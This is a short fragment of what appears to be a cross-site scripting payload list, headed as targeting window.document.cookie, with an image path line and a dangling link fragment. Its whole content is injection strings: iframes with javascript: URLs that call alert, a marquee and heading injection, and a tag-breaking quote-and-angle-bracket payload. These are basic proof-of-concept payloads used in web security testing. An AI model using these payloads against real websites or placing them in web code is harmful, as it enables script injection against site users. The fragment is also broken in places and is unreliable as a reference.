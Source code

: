 #### window.document.cookie Payload List :

```




http://66.102.7.147/">XSS






<iframe src="javascript:alert('XSS by \nxss');"></iframe><marquee><h1>XSS by xss</h1></marquee>


"><h1><IFRAME SRC="javascript:alert('XSS');"></IFRAME>">123</h1>














